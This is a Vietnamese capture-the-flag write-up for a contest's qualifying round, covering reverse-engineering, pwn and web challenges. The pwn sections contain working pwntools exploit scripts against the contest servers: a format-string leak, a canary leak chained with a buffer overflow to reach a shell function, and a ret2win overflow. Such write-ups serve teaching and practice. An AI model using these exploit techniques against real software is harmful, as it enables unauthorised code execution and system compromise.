






## Lời mở đầu

- Năm nay, giải rồng điện tử trở lại. Team mình là đội nhà nên phải gắng thi đấu hết sứ (áp lực sân nhà cũng như áp lực của mấy thầy :<)
- Năm nay mình có thể thấy được, giải đã ổn hơn năm trước kha khá. Tuy nhiên vẫn có quá nhiều thứ làm mình phải thốt lên: Bullsh*t.
- Bài này mình sẽ viết về Writeup RE, PWN, Web ở vòng loại của Rồng lộ*.
- Mình văn vở khá dở cũng như kỹ thuật còn non nớt, mọi người đọc xong vui lòng ném đá nhẹ nhẹ và góp ý cho mình nhé ^^

## RE

### Rev-1

- Dùng **strings** để xem các chuỗi có trong file binary, flag sẽ hiển thị
- 

`flag{833450aafcf1a802422ac2bf6c42a304}`

### Rev-2

Mình dùng IDA để phân tích mã nguồn của bài này.


Có thể thấy được dữ liệu được người dùng nhập vào (được lưu vào biến **s**) sẽ được mã hóa bằng cách XOR từng ký tự với 0x5F rồi cộng với 20.
Rồi sau đó đem đi so sánh với **encryptedFlag**.
Phân tích xem biến **encryptedFlag** giữ giá trị nào thì mình nhận được:

=> Lúc này mình viết một đoạn mã python để giải mã lại Flag.

```python
encFlag = "MGRL8\x83\x83\x4e\x7b\x4d\x81\x7c\x51\x7f\x7b\x80\x7f\x83\x50\x7b\x50\x51\x7d\x7d\x7f\x51\x7f\x51\x4f\x82\x4d\x7f\x51\x7c\x7e\x7f\x7a\x36"

flag = ""

for i in range(0, len(encFlag)):
    flag += chr((ord(encFlag[i]) - 20) ^ 0x5f)
    
print(flag)
```

Flag: **flag{00e8f27b48340c8cb664b4bd1f4b7549}**

### Rev-3

Tiếp tục, mình dùng IDA để phân tích mã nguồn bài này thì phát hiện bài này là một bài **z3**, từng ký tự của flag sẽ được đưa vào một phương trình. => Để lấy được flag thì phải giải hệ phương trình để tìm được từng ký tự của flag.

Mã giả của chương trình sẽ có dạng như sau:

```c
v43 = __readfsqword(0x28u);
  printf("Enter correct key!: ");
  __isoc99_scanf("%s", &s);
  if ( strlen(&s) != 38 )
  {
    puts(&::s);
    exit(-1);
  }
  v4 = v22 + v23 + s + v15 - v39 == 208;
  if ( v12 + v36 + v26 - v27 + v32 != 197 )
    v4 = 0;
  if ( v10 + v16 - v28 - v14 + v6 != 150 )
    v4 = 0;
  if ( v28 + v22 + v24 - v17 - v9 != -61 )
    v4 = 0;
  if ( v27 + v13 + v33 - v28 - v10 != 139 )
    v4 = 0;
  if ( v24 + v39 + v17 - v33 + v42 != 330 )
    v4 = 0;
  if ( v34 + v15 + v26 + v27 - v12 != 153 )
    v4 = 0;
  if ( v21 + v35 + v31 - v8 - v18 != 91 )
    v4 = 0;
  if ( v37 + v17 + v25 + v19 + v15 != 408 )
    v4 = 0;
  if ( v30 + v20 - v33 - v17 - v21 != -46 )
    v4 = 0;
  if ( v13 + v6 - v11 - v8 + v32 != 154 )
    v4 = 0;
  if ( v32 + v8 - v40 - v6 - v34 != -18 )
    v4 = 0;
  if ( v31 + v37 + v7 - v13 - v35 != 50 )
    v4 = 0;
  if ( v34 + v31 + v17 - v13 - v36 != 58 )
    v4 = 0;
  if ( v24 + v18 + v20 - v37 + v32 != 203 )
    v4 = 0;
  if ( v10 + v25 - v42 - v9 + v12 != -44 )
    v4 = 0;
  if ( v24 + v37 + v39 - v19 + v6 != 259 )
    v4 = 0;
  if ( v27 + v42 + v39 - v40 - v13 != 163 )
    v4 = 0;
  if ( v37 + v22 + v19 + v30 + v40 != 414 )
    v4 = 0;
  if ( v15 + v11 + v26 + v10 + v9 != 327 )
    v4 = 0;
  if ( v34 + v30 + v41 - v20 - v27 != 12 )
    v4 = 0;
  if ( v16 + v29 - v40 - v22 - v13 != -51 )
    v4 = 0;
  if ( v13 + s - v40 - v41 - v24 != 38 )
    v4 = 0;
  if ( v36 + v32 + v9 + v39 - v7 != 268 )
    v4 = 0;
  if ( v30 + v14 - v23 - v39 + v29 != 22 )
    v4 = 0;
  if ( v8 + v23 + v39 - v25 - v7 != 150 )
    v4 = 0;
  if ( v14 + v24 - v27 - v40 + v22 != 11 )
    v4 = 0;
  if ( v6 + v9 - v34 - v16 + v29 != 132 )
    v4 = 0;
  if ( s + v15 - v17 - v10 - v34 != -54 )
    v4 = 0;
  if ( v20 + v18 - v25 - v40 - v13 != -55 )
    v4 = 0;
  if ( v39 + v8 - v42 - v38 + v34 != 72 )
    v4 = 0;
  if ( v20 + v41 + v17 - v18 - v27 != 106 )
    v4 = 0;
  if ( v17 + v39 - v36 - v34 - v26 != 48 )
    v4 = 0;
  if ( v12 + v33 - v13 - v11 + v9 != 123 )
    v4 = 0;
  if ( v4 )
    puts("You got it");
  else
    puts("Incorrect");
  return 0;
```

Để giải bài này, mình đã viết một đoạn code python như bên dưới:

```python
from sympy import symbols, Eq, solve

v4, v22, v23, v15, v39, v12, v36, v26, v27, v32, v10, v16, v28, v14, v24, v17, v13, v33, v42, v34, v21, v35, v31, v18, v37, v25, v19, v30, v20, v40, v41, v11, v38, v29 = symbols('v4 v22 v23 v15 v39 v12 v36 v26 v27 v32 v10 v16 v28 v14 v24 v17 v13 v33 v42 v34 v21 v35 v31 v18 v37 v25 v19 v30 v20 v40 v41 v11 v38 v29')

s = 102
v6 = 108
v7 = 97
v8 = 103
v9 = 123

equations = [
    Eq(v22 + v23 + s + v15 - v39, 208),
    Eq(v12 + v36 + v26 - v27 + v32, 197),
    Eq(v10 + v16 - v28 - v14 + v6, 150),
    Eq(v28 + v22 + v24 - v17 - v9, -61),
    Eq(v27 + v13 + v33 - v28 - v10, 139),
    Eq(v24 + v39 + v17 - v33 + v42, 330),
    Eq(v34 + v15 + v26 + v27 - v12, 153),
    Eq(v21 + v35 + v31 - v8 - v18, 91),
    Eq(v37 + v17 + v25 + v19 + v15, 408),
    Eq(v30 + v20 - v33 - v17 - v21, -46),
    Eq(v13 + v6 - v11 - v8 + v32, 154),
    Eq(v32 + v8 - v40 - v6 - v34, -18),
    Eq(v31 + v37 + v7 - v13 - v35, 50),
    Eq(v34 + v31 + v17 - v13 - v36, 58),
    Eq(v24 + v18 + v20 - v37 + v32, 203),
    Eq(v10 + v25 - v42 - v9 + v12, -44),
    Eq(v24 + v37 + v39 - v19 + v6, 259),
    Eq(v27 + v42 + v39 - v40 - v13, 163),
    Eq(v37 + v22 + v19 + v30 + v40, 414),
    Eq(v15 + v11 + v26 + v10 + v9, 327),
    Eq(v34 + v30 + v41 - v20 - v27, 12),
    Eq(v16 + v29 - v40 - v22 - v13, -51),
    Eq(v13 + s - v40 - v41 - v24, 38),
    Eq(v36 + v32 + v9 + v39 - v7, 268),
    Eq(v30 + v14 - v23 - v39 + v29, 22),
    Eq(v8 + v23 + v39 - v25 - v7, 150),
    Eq(v14 + v24 - v27 - v40 + v22, 11),
    Eq(v6 + v9 - v34 - v16 + v29, 132),
    Eq(s + v15 - v17 - v10 - v34, -54),
    Eq(v20 + v18 - v25 - v40 - v13, -55),
    Eq(v39 + v8 - v42 - v38 + v34, 72),
    Eq(v20 + v41 + v17 - v18 - v27, 106),
    Eq(v17 + v39 - v36 - v34 - v26, 48),
    Eq(v12 + v33 - v13 - v11 + v9, 123)
]

solution = solve(equations, dict=True)

print("flag{", end="")

if solution:
    for sol in solution:
        for var in sol:
            print(chr(sol[var]), end="")
else:
    print("Nope")
```

- Flag: **flag{51ee95ff4fda5a721b89f3a16b0e9a86}**

## PWN

### Abyss

- Bài này cung cấp một chương trình và một mã nguồn của nó

```c
// abyss-dist.c
#include <stdio.h>

int main() {
  char* flag = "flag{f4ke_fl4g}";
  char buffer[64];

  printf("Welcome to the Abyss\n");
  printf("Provide darkness code to lighten up the flag: "); 
  fgets(buffer, 64, stdin);
  printf(buffer);
  return 0;
}
```

- Dựa vào mã nguồn này, có thể dễ dàng nhận thấy lỗi cần khai thác là Format String tại **printf(buffer)**
- => Sử dụng lỗi này để leak ra được giá trị của biến **flag** được lưu trữ trên server.

Mình đã viết một payload python để khai thác bài này như sau

```python
from pwn import *


for i in range(100):
    try:
        # p = process('./abyss-dist')
        
        p = remote('0.cloud.chals.io', 27147, level='error')
        p.sendlineafter(b'flag: ', '%{}$s'.format(i).encode())
        result = p.recvline()
        print(str(i) + ': ' + str(result))
        p.close()
    except EOFError:
        pass
```

- Do server đã đóng nên mình sẽ chạy trên local bằng cách bỏ comment ở phần process đi và comment phần remote.

Flag: **Server đóng rồi nên bó tay =)))**

### Chained

- Tương tự bài trên, bài này cũng được cung cấp sẵn source code.

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>

char EXPOSED_SYSTEM[100];

void probe_forum(){
    char process_logs[100];
    char intrusion_details[100];
    printf("Intrusion detected.\nPlease enter process logs:\n > ");
    scanf("%s", process_logs);
    printf("Analyzing process logs for ***");
    printf(process_logs);
    printf("***\nPlease enter intrusion details: \n > ");
    scanf("%s", intrusion_details);
    int c;
    while ((c = getchar()) != '\n' && c != EOF);
    if(!strcmp(intrusion_details, "malicious_binary")){
        printf("Intrusion confirmed!\n");
        strncpy(EXPOSED_SYSTEM, process_logs, sizeof(EXPOSED_SYSTEM));
    }
    else{
        printf("Intrusion not confirmed. Exiting analysis.\n");
        exit(-37);
    }
}

void analyze_binary() {
    char binary_operations[400];
    printf("Enter suspected binary operations:\n");
    gets(binary_operations);
    printf("Process Logs: %s Suspected Operations: %s\n", EXPOSED_SYSTEM, binary_operations);
}

void delve_operations() {
    char *argv[] = {"/bin/sh", NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argv, envp);
}

int main(int argc, char *argv[]) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    probe_forum();
    analyze_binary();
    return 0;
}

```

- Mình dùng **checksec** để phân tích tệp chương trình.


=> Bài này nếu có BOF thì cần bypass Canary

Phân tích mã nguồn bài này thì mình phát hiện 3 lỗi như bên dưới:

- Phân tích mã nguồn của chương trình, mình nhận thấy có một hàm cấp cho người chơi shell là **delve_operations**. Tuy nhiên, hàm này lại không được gọi đến => Mình nghĩ hướng đi của bài này phải có **ret2win**
- Tiếp tục, mình phát hiện một lỗi khác nữa là **Format String** ở trong hàm **probe_forum**, ở phần **printf(process_logs)** => Dùng lỗi này để leak được giá trị của Canary.
- Ở ngay trong hàm **probe_forum**, chương trình có thêm một lỗi nữa là **BOF** (Không giới hạn ký tự nhập vào của người dùng) ở 2 biến **intrusion_details**, **process_logs**.

=> Tận dụng 3 lỗi này để tạo thành một chain khai thác gọi được tới hàm **delve_operations**, sau đó RCE server rồi đọc flag.

Mình đã viết một payload khai thác như bên dưới:

```python
from pwn import *

# r = process("chained-dist")
# gdb.attach(r)

r = remote(b"0.cloud.chals.io", 23188)


print(r.recvuntil(b"> "))

payload = b"%59$p***%49$p"
r.sendline(payload)

output = r.recvuntil(b"> ").decode("utf-8")

canary = int(output.split("***")[1], 16)
info("canary: 0x%x" % canary)

shell_address = int(output.split("***")[2], 16) - 0x63
info("bash: 0x%x" % shell_address)

r.sendline(b"malicious_binary")
r.recvuntil(b":\n")

payload = b"A" * 408 + p64(canary) + p64(0) + p64(shell_address)

r.sendline(payload)
r.interactive()
```

### Overflowed

- Bài này được cấp cho một file Docker và một chương trình nhị phân
- Mình **checksec** nó thì nhận được kết quả như sau:



Do không được cung cấp mã nguồn nên mình dùng IDA để phân tích mã nguồn của bài này thì phát hiện:

- Có hàm **win** được dùng để cấp shell cho người chơi để đọc flag trên server

- Có lỗi BOF trong hàm **greet** tại dòng 6


=> Bài này là **ret2win**

Mình viết payload để khai thác bài này như bên dưới

```python
from pwn import *

exe = "./overflowed"
elf = context.binary = ELF(exe, checksec=False)

def find_eip_offset(payload):
   p = process(exe)
   p.sendlineafter(b"name:\n",payload)
   p.wait()
   ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))
   info('located EIP/RIP offset at {a}'.format(a=ip_offset)),
   return ip_offset

r = remote("0.cloud.chals.io", 33664)

# r = process(exe)

offset = find_eip_offset(cyclic(500))

payload = flat({
   offset: [
      elf.symbols.win
   ]
})

r.sendlineafter(b"name:\n", payload)
r.interactive()
```

## Web

Với web thì mình chỉ còn giữ solution của mỗi bài **Everything At One**

### Everything At One

Bài này khi dir search thì phát hiện nó có các file html có tên tăng lần lượt 1.html, 2.html, 3.html, ... cho tới 168.

Mình nhận thấy mỗi trang sẽ cho mình một ký tự (Mình đã nghi nó là Base64 của flag)

Mình quyết định gom lại tất cả thành một chuỗi duy nhất bằng code python

```python
import requests
import base64

# Fuzz thì thấy có 169 trang từ 1 đến 168 với format là https://digitaldragonsctf-everything-at-once.chals.io/{i}.html
# Mỗi trang sẽ có title chứa một ký tự trong flag được encode bằng base32 -> base64 -> hex
# Để lấy flag thì ta cần lấy hết các ký tự trong title của các trang từ 1 đến 168

enc_flag = ""

for i in range(1, 169):
    response = requests.get(f"https://digitaldragonsctf-everything-at-once.chals.io/{i}.html")
    title = response.text.split("<title>")[1].split("</title>")[0]
    enc_flag += title
    print(f"Page {i}: {title}, Encoded flag: {enc_flag}")
    
print("Encrypted flag:", enc_flag)

# Decode base32 
enc_flag = base64.b32decode(enc_flag)
print("Decoded base32:", enc_flag)

# Decode base64
enc_flag = base64.b64decode(enc_flag)
print("Decoded base64:", enc_flag)

# Decode hex
flag = bytes.fromhex(enc_flag.decode())
print("Flag:", flag)
```

=> Chạy hết thì thu được một chuỗi **base32** => giải mã thì thu được một chuỗi **base64** => giải mã thêm một lần nữa thì mình thu được Flag